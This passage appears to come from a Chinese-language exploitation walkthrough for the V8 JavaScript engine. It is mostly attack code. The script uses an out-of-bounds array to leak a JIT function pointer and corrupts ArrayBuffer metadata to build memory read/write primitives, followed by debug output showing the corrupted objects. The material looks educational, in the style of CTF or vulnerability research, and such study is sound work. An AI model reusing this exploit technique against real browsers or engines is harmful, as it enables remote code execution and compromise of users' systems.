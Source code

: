 ```javascript
                    objs.push(obj);
                }
                return {done: true};
            } else {
                return {value: result, done: false};
            }
        }
    }
) });

let jit_func_obj_ptr = 0;
console.log(maxSize);
for (let i = 0; i < maxSize; i++) {
    let val = Int64.fromDouble(oobArray[i]);
    if (val == 0x432100000000) {
        console.log('Found', i);
        jit_func_obj_ptr = Int64.fromDouble(oobArray[i + 1]) - 1;
        console.log('JIT Function Pointer: 0x' + jit_func_obj_ptr.toString(16));
        for (let j = i + 2; j < i + 100; j++) {
            console.log("0x" + Int64.fromDouble(oobArray[j]).toString(16));
        }
        break;
    }
}

for (let i = 0; i < maxSize; i++) {
    let val = Int64.fromDouble(oobArray[i]);
    if (val == 0x123400000000) {
        console.log('Found ArrayBuffer');
        changed_idx = i;
        oobArray[i] = (new Int64(0x121200000000)).asDouble();
        oobArray[i + 3] = (new Int64(0x1212)).asDouble();
        break;
    }
}

console.log("======> objs");
%DebugPrint(objs);

console.log("======> oobArray");
%DebugPrint(oobArray);

console.log("======> bufs");
%DebugPrint(bufs);

while(1);
```

我们找到`bufs`里面的第一个元素
```shell
======> bufs
DebugPrint: 0x25e084d8aa31: [JSArray] in OldSpace
 - map: 0x25e0f0002729 <Map(PACKED_ELEMENTS)> [FastProperties]
 - prototype: 0x25e0bd805539 <JSArray[0]>
 - elements: 0x25e084d94121 <FixedArray[140]> [PACKED_ELEMENTS]
 - length: 100
 - properties: 0x25e0b2b82251 <FixedArray[0]> {
    #length: 0x25e0b2bcff89 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x25e084d94121 <FixedArray[140]> {
           0: 0x25e084d94691 <ArrayBuffer map = 0x25e0f0003fe9>
           1: 0x25e084d946e1 <ArrayBuffer map = 0x25e0f0003fe9>
           2: 0x25e084d94731 <ArrayBuffer map = 0x25e0f0003fe9>
           3: 0x25e084d94781 <ArrayBuffer map = 0x25e0f0003fe9>
```